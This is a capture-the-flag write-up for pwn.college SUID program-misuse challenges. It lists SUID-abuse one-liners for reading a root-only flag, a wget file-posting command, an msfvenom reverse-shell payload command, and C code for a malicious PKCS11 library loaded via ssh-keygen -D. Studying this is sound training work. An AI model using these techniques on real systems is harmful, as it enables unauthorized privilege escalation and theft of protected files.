 
Find a program with SUID bit permission
```bash
$ find / -user root -perm -4000 -print 2>/dev/null 
$ find / -perm -u=s -type f 2>/dev/null 
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

Program candidates with privilege escalation sample for read only `/flag` permission for root user
```bash
$ env -S cat /flag
$ genisoimage -sort /flag
$ ar -q fake.ar /flag;cat fake.ar
$ echo "/flag" | cpio -o
$ find /flag -exec cat {} \;
$ setarch x86_64 cat /flag
$ whiptail --textbox /flag 10 60
$ tar -cvf fake.tar /flag;tar xf fake.tar -O
$ tar cvf /flag -I; cat flag.tar
$ tar xf /flag -I '/bin/sh -c "cat 1>&2"'
$ socat - /flag
$ cp /flag /dev/stdout
$ mv /usr/bin/cat /usr/bin/mv; mv /flag
$ perl -ne print /flag
$ python -c 'print(open("/flag").read())'
$ bash -p
$ date -f /flag
$ gcc -E -x c /flag
$ bzip2 /flag; bzip2 -dc /flag.bz2
$ unzip -p flag.zip flag | less
$ find . -exec cat /flag {} \;
$ nice cat /flag
$ timeout 1 cat /flag
$ stdbuf -o 0 cat /flag
$ watch -x cat /flag
$ awk 'BEGIN{ while(( getline line<"/flag") > 0 ) { print line } }'
$ sed p /flag
$ dmesg -F /flag
$ wc --files0-from=/flag
$ as /flag
```

`ed`
```bash
$ ed /flag
> p
```

`wget`
```bash
$ nc -lvnp 4554 # terminal session 1
$ wget --post-file=/flag http://127.0.0.1:4554 # terminal session 2
```

`make`
Create a Makefile with the content:
```make
FLAG := $(shell cat /flag) 
ok: 
	echo $(FLAG)
```

```bash
$ make -f Makefile
```

`ruby`
Create a ruby script with the content:
```ruby
readData = File.read("/flag") 
puts readData
```

```bash
$ ruby script.rb
```

`ssh-keygen` ? yes with `-D` parameter to load dynamic shared library

```bash
$ ssh-keygen -D ourlib2shell.so #write ORW dynamic shared library to read the flag
```

My first attempt was to generate a dynamic shared library from `msfvenom`
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5100 -f elf-so -o lib2shell.so
```
and run `netcat` to terminal session 2.

```
./lib2shell.so does not contain expected string C_GetFunctionList
provider ./lib2shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

The exploit won't work because `ssh-keygen -D ` expects pkcs11 library (maybe this will work in older version of `ssh`?) and `lib2shell.so` is not really implements pkcs11 interface.

Second attempt, going through [Sean Pesce's Research Blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html "https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)  that applies patches, also `hello.so` won't work so we need to write our own ORW that implements pkcs11 as our third attempt.

Third attempt, I found [jariq's pkcs11 projects](https://stackoverflow.com/a/65446632) , EMPTY-PKCS11 doesn't have `C_GetFunctionList` so I chose his minimal [PCKS11-MOCK](https://github.com/Pkcs11Interop/pkcs11-mock) and modified it to read the `/flag` or we can spawn a root shell.  To make this work modify the `C_Initialize` interface implementation with
```c
...
#include <stdio.h>
#include <unistd.h>
// #define SHELL_COMMAND "/bin/sh"
...

CK_DEFINE_FUNCTION(CK_RV, C_Initialize)(CK_VOID_PTR pInitArgs)
{
    puts("[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]");
    printf("Reading the flag");
    // Read the /flag file
    char flag[500];
    FILE *fp;

    fp = fopen("/flag", "r");
    if (fp == NULL) {
        printf("Could not open file /flag");
        return 1;
    }
    fgets(flag, 500, fp);
    printf("Flag: %s\n", flag);

    // long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    // printf("Result: %lld\n", err);

    if (CK_TRUE == pkcs11_mock_initialized)
        return CKR_CRYPTOKI_ALREADY_INITIALIZED;
    IGNORE(pInitArgs);
    pkcs11_mock_initialized = CK_TRUE;
    return CKR_OK;
}
```

Then run `build/linux/build.sh` to build our `pkcs11-mock.so` and transfer it to our ssh target remote connection with `scp`.
```bash
$ scp -i key -r pkcs11-mock-x64.so hacker@dojo.pwn.college:/home/hacker/
```

Run the the exploit to the target machine with 
```
hacker@program-misuse-level-51:~$ ssh-keygen -D ./pkcs11-mock-x64.so 
[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]
Reading the flag
Flag: pwn.college{you_need_to_perform_this_okay?}

C_GetAttributeValue failed: 18
Enter PIN for 'Pkcs11Interop': 
```

It works, this will work also in your current linux machine with ssh-keygen. You better check your program's permissions and nuke them if needed so.

# References
https://pwn.college/fundamentals/program-misuse
[https://hurricane618.me/2022/05/26/pwn-college-writeup-one/](https://hurricane618.me/2022/05/26/pwn-college-writeup-one/ "https://hurricane618.me/2022/05/26/pwn-college-writeup-one/")
[https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html "https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html")
https://github.com/Pkcs11Interop/pkcs11-mock
[https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d](https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d "https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d")
https://stackoverflow.com/questions/65444761/how-to-go-about-writing-a-pkcs11-wrapper-around-my-device